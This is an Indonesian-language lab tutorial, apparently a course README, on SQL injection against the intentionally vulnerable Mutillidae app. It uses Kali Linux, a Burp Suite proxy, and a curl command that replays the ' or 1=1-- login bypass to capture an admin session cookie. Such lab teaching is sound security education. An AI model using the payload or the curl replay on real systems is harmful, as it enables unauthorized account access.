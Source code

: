 Lesson 6
--------
### Section 6: Open Console Terminal and Retrieve IP Address
- **Step 1**    : Buka Terminal Kali Linux
- **Step 2**    : Dapatkan IP address dari Kali Linux
    ```
    ifconfig
    ```
    - IP address yang didapatkan `10.151.64.195`
    - VM Kali Linux ini akan digunakan sebagai penyerang Metasploitable
    ![](/assets/lesson-6/ifconfig.png)

### Section 7: Start Web Browser Session to Mutillidae
- **Step 1**    : Buka Mozilla Firefox
- **Step 2**    : Buka Multilidae
    ![](/assets/lesson-6/open_multilidae.png)

### Section 8: Go To Login Page
- **Step 1**    : Klik Login/Register
    ![](/assets/lesson-6/click-login.png)

### Section 9: Configure Firefox Proxy Settings
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **Manual Proxy Configuration**
    - Ketik `127.0.0.1` di kolom **HTTP Proxy**
    - Ketik `8080` di kolom **Port**
    - Check **Use this proxy server for all protocols**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/config-proxy.png)
    
### Section 10: Configure Burpsuite Settings
- **Step 1**    : Buka Burpsuite melalui Applications > Web Application Analysis > Burpsuite
    ![](/assets/lesson-6/VirtualBox_kali_19_12_2017_12_27_52.png)
- **Step 2**    : Pilih **Temporary project**, lalu **next**
    ![](/assets/lesson-6/temp_project.png)
- **Step 3**    : Pilih **Use Burp defaults**, lalu **Start Burp**
    ![](/assets/lesson-6/burp_config.png)
- **Step 4**    : Buka Proxy > Options, dan pastikan **Port** berupa 8080
    ![](/assets/lesson-6/burp_proxy.png)
- **Step 5**    : Buka Proxy > Intercept, ubah **Intercept is on** menjadi **Intercept is off**
    ![](/assets/lesson-6/proxy-intercept.png)
    
### Section 11: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
- **Step 5**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    _ Klik Raw Tab
    - Lihat **POST** Data String        
        ```
        username=%27+or+1%3D1--+&password=&login-php-submit-button=Login
        ```
        - `%27` adalah petik satu (')
        - `+` adalah spasi
        - `%3D` adalah sama dengan (=)
        ![](/assets/lesson-6/obtain_1.png)
### Section 12: Simulate CURL SQL Injection: (Obtain Access #1)
- **Step 1**    : Klik Logout
- **Step 2**    : Gunakan Curl untuk mekakukan login dengan **POST** data yang didapatkan dengan Burpsuite pada Section 11
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login1.txt
    ```
    - menampilkan hasil "Logged In Admin"
        ```
        grep "Logged In" login1.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        cat crack_cookies.txt
        ```
- **Step 3**    :
- **Step 4**    :  

    



    